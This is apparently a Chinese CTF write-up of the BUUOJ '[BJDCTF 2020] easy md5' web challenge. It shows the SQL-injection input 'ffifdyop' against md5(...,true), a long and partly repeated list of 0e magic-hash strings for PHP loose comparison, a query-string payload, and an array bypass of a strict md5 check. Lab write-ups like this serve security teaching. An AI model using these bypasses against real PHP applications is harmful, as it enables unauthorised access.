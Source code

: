 ### buuoj_[BJDCTF 2020]easy md5

首先打开界面，随便输入一个数字，没反应，抓包看看，发送到repeater，看到有一行代码

```
Hint: select * from 'admin' where password=md5($pass,true)
```

> 这里，当md5函数指定了参数true的时候，返回的是16进制的，格式大概为'or’6\xc9]\x99\xe9!r,\xf9\xedb\x1c这样的字符串

所以上面的代码就可以等同于

```
select * from 'admin' where password=''or'6......'
```

显然的这是个永真式，所以需要找到这样一个password，使其加密之后的格式是'or'6开头的，找不到，尝试写个代码也没写出来。。。

看了大佬的wp，发现**ffifdyop**是可以的，输入后进入新页面

![](https://pic.imgdb.cn/item/610e8d405132923bf8e1cea3.jpg)

查看页面源代码获得

```
<!--
$a = $GET['a'];
$b = $_GET['b'];

if($a != $b && md5($a) == md5($b)){
    // wow, glzjin wants a girl friend.
-->
```

对于这种情况，暴力碰撞不太现实，考虑把a和b都弄成以0e开头，即作为科学计数法出现，0的任意次方都为0，可以绕过，而md5函数不可以处理数组，会返回NULL，此时NULL==NULL，也可以绕过

```undefined
一些以0e开头的值
QNKCDZO
0e830400451993494058024219903391

s878926199a
0e545993274517709034328855841020

s155964671a
0e342768416822451524974117254469

s214587387a
0e848240448830537924465865611904

s214587387a
0e848240448830537924465865611904

s878926199a
0e545993274517709034328855841020

s1091221200a
0e940624217856561557816327384675

s1885207154a
0e509367213418206700842008763514

s1502113478a
0e861580163291561247404381396064

s1885207154a
0e509367213418206700842008763514

s1836677006a
0e481036490867661113260034900752

s155964671a
0e342768416822451524974117254469

s1184209335a
0e072485820392773389523109082030

s1665632922a
0e731198061491163073197128363787

s1502113478a
0e861580163291561247404381396064

s1836677006a
0e481036490867661113260034900752

s1091221200a
0e940624217856561557816327384675

s155964671a
0e342768416822451524974117254469

s1502113478a
0e861580163291561247404381396064

s155964671a
0e342768416822451524974117254469

s1665632922a
0e731198061491163073197128363787

s155964671a
0e342768416822451524974117254469

s1091221200a
0e940624217856561557816327384675

s1836677006a
0e481036490867661113260034900752

s1885207154a
0e509367213418206700842008763514

s532378020a
0e220463095855511507588041205815

s878926199a
0e545993274517709034328855841020

s1091221200a
0e940624217856561557816327384675

s214587387a
0e848240448830537924465865611904

s1502113478a
0e861580163291561247404381396064

s1091221200a
0e940624217856561557816327384675

s1665632922a
0e731198061491163073197128363787

s1885207154a
0e509367213418206700842008763514

s1836677006a
0e481036490867661113260034900752

s1665632922a
0e731198061491163073197128363787

s878926199a
0e545993274517709034328855841020
```

所以构造playload

```
?a=QNKCDZO&b=s878926199a
```

然后又获得代码

```
<?php
error_reporting(0);
include"flag.php";

highlight_file(__FILE__);
if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){  		echo $flag;
} 
```

这个和刚刚的差不多，不过这里是三个等于号是强比较，所以采用数组方式

![](https://pic.imgdb.cn/item/610e8f765132923bf8e506bb.jpg)